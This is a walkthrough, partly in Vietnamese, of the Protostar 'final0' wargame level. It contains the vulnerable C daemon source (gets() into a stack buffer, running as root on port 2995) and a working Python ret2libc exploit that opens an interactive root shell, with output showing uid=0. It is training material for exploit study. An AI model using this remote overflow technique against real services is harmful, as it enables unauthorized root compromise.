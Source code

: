 # FINAL ZERO

## About

This level combines a stack overflow and network programming for a remote overflow.

Hints: depending on where you are returning to, you may wish to use a toupper() proof shellcode.

Core files will be in /tmp.

This level is at /opt/protostar/bin/final0

## Source code

```C
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

## Solutions

`FINAL ZERO` là khai thác `stack overflow` và `remote`.

File final0.py

```
import struct
import socket
import telnetlib

HOST = '127.0.0.1'
PORT = 2995
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = "a"*510+"\x00"+"aaaabbbbccccddddeeeef"
execve = struct.pack("I", 0x08048c0c)
binsh = struct.pack("I", 1176511 + 0xb7e97000)
exploit = padding + execve + "AAAA" + binsh + "\x00"*8

s.send(exploit+"\n")
s.send("id\n")
print s.recv(1024)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Khai thác.

```
root@protostar:/# /opt/protostar/bin/final0
root@protostar:/tmp# python final0.py
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux protostar 2.6.32-5-686 #1 SMP Mon Oct 3 04:15:24 UTC 2011 i686 GNU/Linux


```

## Documents

[Final0](https://www.youtube.com/watch?v=HAN8Qun26cQ)



